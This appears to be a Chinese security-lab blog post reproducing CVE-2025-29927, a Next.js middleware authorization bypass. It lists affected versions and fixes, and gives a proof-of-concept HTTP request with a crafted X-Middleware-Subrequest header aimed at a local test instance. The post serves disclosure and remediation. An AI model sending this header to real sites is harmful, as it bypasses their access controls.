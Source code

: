 #  【成功复现】Next.js中间件认证绕过漏洞(CVE-2025-29927)   
原创 弥天安全实验室  弥天安全实验室   2025-05-06 11:26  
  
#   
  
网安引领时代，弥天点亮未来    
   
  
  
  
  
  
   
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x00写在前面**  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**  
0x01漏洞介绍Next.js是Vercel开源的一个 React 框架，Next.js 是一款基于 React 的热门 Web 应用程序框架，提供服务器端渲染、静态站点生成和集成路由系统等功能。Next.js 14.2.25之前版本和15.2.3之前版本存在安全漏洞，该漏洞源于如果授权检查发生在中间件中，可能绕过授权检查。0x02影响版本  
  
11.1.4 <=next.js<=13.5.6  
  
14.0 <= next.js <14.2.25  
  
15.0 <= next.js <15.2.3  
  
注：利用前提，需要next.js应用使用middleware。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hAv1g2LKMH2jbnGD1psbt0r6icjfU5EibSib9RTGdxsWxyNpCkl23JQtsMRDmcz3LG91fvONQ7YPpncQ/640?wx_fmt=png&from=appmsg "")  
0x03漏洞复现  
1.访问漏洞环境  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hAv1g2LKMH2jbnGD1psbt0r9RDzKJRibxkjiaJ6X9n3ZnyQuxUTibzTHO6eeEPSR0ExJjCOtTTia4lICA/640?wx_fmt=png&from=appmsg "")  
通过浏览器插件获取版本信息2.对漏洞进行复现请求get请求确认中间件 POC 漏洞复现GET / HTTP/1.1Host: 127.0.0.1:3000X-Nextjs-Data: 1X-Middleware-Subrequest: src/middleware:nowaf:src/middleware:src/middleware:src/middleware:src/middleware:middleware:middleware:nowaf:middleware:middleware:middleware:pages/_middleware      执行payload，通过响应判断漏洞存在。3.Yakit插件测试0x04修复建议目前厂商已发布升级补丁以修复漏洞，补丁获取链接：临时解决：拦截访问Nextjs应用中HTTP请求头包含的x-middleware-subrequest字段。建议尽快升级修复漏洞，再次声明本文仅供学习使用，非法他用责任自负！https://github.com/vercel/next.js/security/advisories/GHSA-f82v-jwr5-mffw弥天简介学海浩茫，予以风动，必降弥天之润！弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。口号 网安引领时代，弥天点亮未来 知识分享完了喜欢别忘了关注我们哦~学海浩茫，予以风动，必降弥天之润！   弥  天安全实验室  
  
  
